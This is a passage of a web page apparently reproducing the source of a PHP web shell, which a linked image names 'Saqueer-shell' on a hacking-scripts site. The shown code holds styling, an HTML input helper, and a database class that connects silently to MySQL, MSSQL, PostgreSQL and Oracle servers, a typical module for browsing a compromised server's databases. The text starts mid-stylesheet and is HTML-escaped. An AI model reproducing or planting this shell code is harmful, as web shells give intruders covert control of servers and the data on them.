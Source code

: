 	padding: 6px;
	border: thin solid #000;
}
.style1 {
	text-align: center;
}
.style2 {
	color: #FFFFFF;
	font-weight: bold;
}
.style3 {
	color: #FFFFFF;
}
--&gt;
&lt;/style&gt;

&lt;/head&gt;
';


function in($type,$name,$size,$value,$checked=0) 
 {
 $ret = "&lt;input type=".$type." name=".$name." "; if($size != 0) 
 {
 $ret .= "size=".$size." "; }
 $ret .= "value=\"".$value."\""; if($checked) $ret .= " checked"; return $ret."&gt;"; }
 
class my_sql 
 {
 var $host = 'localhost'; var $port = ''; var $user = ''; var $pass = ''; var $base = ''; var $db = ''; var $connection; var $res; var $error; var $rows; var $columns; var $num_rows; var $num_fields; var $dump; function connect() 
 {
 switch($this-&gt;db) 
 {
 case 'MySQL': if(empty($this-&gt;port)) 
 {
 $this-&gt;port = '3306'; }
 if(!function_exists('mysql_connect')) return 0; $this-&gt;connection = @mysql_connect($this-&gt;host.':'.$this-&gt;port,$this-&gt;user,$this-&gt;pass); if(is_resource($this-&gt;connection)) return 1; $this-&gt;error = @mysql_errno()." : ".@mysql_error(); break; case 'MSSQL': if(empty($this-&gt;port)) 
 {
 $this-&gt;port = '1433'; }
 if(!function_exists('mssql_connect')) return 0; $this-&gt;connection = @mssql_connect($this-&gt;host.','.$this-&gt;port,$this-&gt;user,$this-&gt;pass); if($this-&gt;connection) return 1; $this-&gt;error = "Can't connect to server"; break; case 'PostgreSQL': if(empty($this-&gt;port)) 
 {
 $this-&gt;port = '5432'; }
 $str = "host='".$this-&gt;host."' port='".$this-&gt;port."' user='".$this-&gt;user."' password='".$this-&gt;pass."' dbname='".$this-&gt;base."'"; if(!function_exists('pg_connect')) return 0; $this-&gt;connection = @pg_connect($str); if(is_resource($this-&gt;connection)) return 1; $this-&gt;error = @pg_last_error($this-&gt;connection); break; case 'Oracle': if(!function_exists('ocilogon')) return 0; $this-&gt;connection = @ocilogon($this-&gt;user, $this-&gt;pass, $this-&gt;base); if(is_resource($this-&gt;connection)) return 1; $error = @ocierror(); $this-&gt;error=$error['message']; break; }
 return 0; }
 function select_db() 
 {
 switch($this-&gt;db) 
 {
 case 'MySQL': if(@mysql_select_db($this-&gt;base,$this-&gt;connection)) return 1; $this-&gt;error = @mysql_errno()." : ".@mysql_error(); break; case 'MSSQL': if(@mssql_select_db($this-&gt;base,$this-&gt;connection)) return 1; $this-&gt;error = "Can't select database"; break; case 'PostgreSQL': return 1; break; case 'Oracle': return 1; break; }
 return 0; }

 [1]: http://hackingscripts.com/wp/wp-content/uploads/2014/02/Saqueer-shell.png